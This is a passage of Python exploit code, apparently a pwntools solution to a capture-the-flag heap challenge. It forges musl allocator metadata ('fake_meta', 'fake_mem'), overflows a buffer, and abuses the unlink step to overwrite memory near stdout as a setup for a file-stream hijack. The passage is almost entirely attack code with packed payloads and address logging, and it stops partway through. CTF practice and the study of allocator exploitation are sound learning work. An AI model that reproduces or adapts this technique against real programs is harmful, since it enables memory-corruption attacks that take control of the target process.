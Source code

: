         #-------------- musl unlink ----> FSOP-----------------
        stout = libc.address +0xB02E0
        fake_meta_addr = mmap_base + 0x2010
        fake_mem_addr = mmap_base + 0x2040
        ## dequeue
        sc = 8 # 0x80
        freeable = 1
        last_idx = 0
        maplen = 1
        fake_meta = b''
        fake_meta += p64(stout - 0x18) # prev
        fake_meta += p64(fake_meta_addr + 0x30) # next
        fake_meta += p64(fake_mem_addr) # mem
        fake_meta += p32(0) + p32(0) # avail_mask, freed_mask
        fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx)
        fake_meta += p64(0)

        fake_mem = b''
        fake_mem += p64(fake_meta_addr) # meta
        fake_mem += p32(1) # active_idx
        fake_mem += p32(0)

        payload = b''
        payload += b'A' * 0xaa0
        payload += p64(secret) + p64(0)
        payload += fake_meta
        payload += fake_mem
        payload += b'\n'

        for i in range(1):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(payload,0x1200)
        store(usage[0]+b'\x00'+b'0',0x4,p64(chunk_addr+0xd0)+p64(fake_mem_addr+0x10)+p64(2)+p64(0x20)+p64(0x0000000014d6c0ff)+p64(0),0x30)
        log.info('fake_meta_addr: %#x' % fake_meta_addr)
        log.info('fake_mem_addr: %#x' % fake_mem_addr)
        log.info('stdout: %#x' % stout)
        #gdb.attach(io)
        delete(usage[0],len(usage[0]))
        #gdb.attach(io)

        # Create a fake bin using enqueue during free
        sc = 8 # 0x90
        last_idx = 1
        fake_meta = b''
        fake_meta += p64(0) # prev
        fake_meta += p64(0) # next
        fake_meta += p64(fake_mem_addr) # mem
        fake_meta += p32(0) + p32(0) # avail_mask, freed_mask
        fake_meta += p64((sc << 6) | last_idx)
        fake_meta += p64(0)
